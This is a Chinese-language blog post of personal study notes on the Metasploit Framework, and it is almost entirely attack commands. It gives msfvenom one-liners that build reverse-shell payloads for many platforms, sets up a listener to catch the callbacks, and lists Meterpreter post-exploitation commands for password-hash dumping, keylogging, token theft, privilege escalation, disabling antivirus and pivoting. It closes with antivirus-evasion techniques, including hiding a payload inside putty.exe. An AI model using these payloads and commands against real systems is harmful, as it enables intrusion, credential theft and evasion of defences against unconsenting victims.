Metasploit学习笔记

Metasploit就是一个漏洞框架。它的全称叫做The Metasploit Framework，简称叫做MSF。Metasploit作为全球最受欢迎的工具，不仅仅是因为它的方便性和强大性，更重要的是它的框架。它允许使用者开发自己的漏洞脚本，从而进行测试。
0x01 基本操作
1、运行
Shell中直接输入msfconsole

2、建立搜索缓存（数据库）
启动PostgreSQL数据库服务 ：service postgresql start 监听5432端口
初始化Metasploit数据库 ：msfdb init
查看数据库联接情况 ：msfconsole db_status
建立数据库缓存 ：msfconsole db_rebuild_cache
3、专业术语
– Exploit，攻击工具/代码
– Payload，攻击载荷
– Shellcode
– Module，模块
– Listener，监听器4、Metasploit主目录
Kali Linux /usr/share/metasploit-framework
5、常用命令
show exploits – 查看所有可用的渗透攻击程序代码
show auxiliary – 查看所有可用的辅助攻击工具
show options – 查看该模块所有可用选项
show payloads – 查看该模块适用的所有载荷代码
show targets – 查看该模块适用的攻击目标类型
search – 根据关键字搜索某模块
info – 显示某模块的详细信息
use – 进入使用某渗透攻击模块
back – 回退
set/unset – 设置/禁用模块中的某个参数
setg/unsetg – 设置/禁用适用于所有模块的全局参数
save – 将当前设置值保存下来，以便下次启动MSF终端时仍可使用0x02 Metasploit功能程序
msfvenom （攻击载荷生成和编码器）
主要参数：
-p payload
-e 编码方式
-i 编码次数
-b 在生成的程序中避免出现的值
LHOST,LPORT 监听上线的主机IP和端口
-f exe 生成EXE格式
使用msfvenom -l 可以查看可以利用payload
msfvenom -l | grep windows | grep x64 | grep tcp 选择payload1、生成可执行文件
Linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
Windows:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
Mac:
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
PHP:
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
WAR:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
Python:
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
Bash:
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
Perl:
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl2.监听
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false 让connection保持连接(即使一个连接退出,仍然保持listening状态)
exploit -j –z -j(作为job开始运行)和-z(不立即进行session交换--也即是自动后台运行)3、实例
msfvenom -p windows/x64/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=172.16.0.4 LPORT=443 -f exe > abc.exe
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > show options
msf exploit(handler) > set LHOST 172.16.0.4
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j -z
-j(计划任务下进行攻击，后台) -z(攻击完成不遇会话交互)
msf exploit(handler) > jobs 查看后台攻击任务
msf exploit(handler) > kill <id> 停止某后台攻击任务
msf exploit(handler) > sessions -l (查看会话)
msf exploit(handler) > sessions -i 2 选择会话
msf exploit(handler) > sessions -k 2 结束会话Ctrl+z 把会话放到后台
Ctrl+c 结束会话0x03 Meterpreter后攻击
Meterpreter提供的功能包括反追踪、纯内存工作模式、系统 信息获取、密码哈希导出、文件上传下载、屏幕截取、键盘记 录、权限提升、跳板攻击等等。
常用命令：
meterpreter > background 放回后台
meterpreter > exit 关闭会话
meterpreter > help 帮助信息
meterpreter > Sysinfo 系统平台信息
meterpreter > screenshot 屏幕截取
meterpreter > shell 命令行shell (exit退出)
meterpreter > getlwd 查看本地目录
meterpreter > lcd 切换本地目录
meterpreter > getwd 查看目录
meterpreter > ls 查看文件目录列表
meterpreter > cd 切换目录
meterpreter > rm 删除文件
meterpreter > download C:\\Users\\123\\Desktop\\1.txt 1.txt 下载文件
meterpreter > upload /var/www/wce.exe wce.exe 上传文件
meterpreter > search -d c: -f *.doc 搜索文件
meterpreter > execute -f cmd.exe -i 执行程序/命令
meterpreter > ps 查看进程
meterpreter > run post/windows/capture/keylog_recorder 键盘记录
meterpreter > getuid 查看当前用户权限
meterpreter > use priv 加载特权模块
meterpreter > getsystem 提升到SYSTEM权限
meterpreter > hashdump 导出密码散列
meterpreter > ps 查看高权限用户PID
meterpreter > steal_token <PID> 窃取令牌
meterpreter > rev2self 恢复原来的令牌
meterpreter > migrate pid 迁移进程
meterpreter > run killav 关闭杀毒软件
meterpreter > run getgui-e 启用远程桌面
meterpreter > portfwd add -l 1234 -p 3389 -r <目标IP> 端口转发
meterpreter > run get_local_subnets 获取内网网段信息
meterpreter > run autoroute -s <内网网段> 创建自动路由
meterpreter > run autoroute -p 查看自动路由表
创建代理通道:
msf > use auxiliary/server/socks4a 设置socks4代理模块
msf auxiliary(socks4a) > show options
msf auxiliary(socks4a) > run
配置proxychains参数：
nano /etc/proxychains.conf 修改代理监听端口,和前面端口一致
quite_mode 设置成安静模式：去掉如下参数前面的注释0x04 免杀
1、多次编码免杀
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.80.12 LPORT=443 -e x86/shikata_ga_nai-i5 -f exe -o /var/www/html/reverse_http_encode.exe2、自定义二进制代码的文件模板免杀
使用“putty.exe”作为文件模板，而且随着putty程序运行而隐蔽同时运行，还使用编码器进行了编码。
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.80.12 LPORT=443 -e x86/shikata_ga_nai-i5 -x ~/putty.exe3、使用Veil生成免杀代码
下载地址：
https://github.com/Veil-Framework/Veil-Evasion (只集合了Evasion)
https://github.com/Veil-Framework/Veil
安装：（建议使用git下载，否则无法更新）
apt-get -y install git
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
cd setup
sudo ./setup.sh -c
一路回车就行，可能中间或出现让你安装python、ruby、go语言等，默认安装就行

运行：
cd ~/Veil
./Veil.py
使用Veil-Evasion工具：
use Evasion

列举所有模块：
list

使用某个模块：
use
use c/meterpreter/rev_http.py

set

生成可执行代码:
generate

接着就是加载msf监听模块，等待用户的上线了。
MSF功能还是十分强大的，是渗透必备神器，可以自定义渗透脚本，更新速度也挺快，这里只是简单记录了他的用法，还有更大的能力等待着各位去开发和挖掘
 本文作者：Hello_C
本文作者：Hello_C
来源：http://zjw.dropsec.xyz/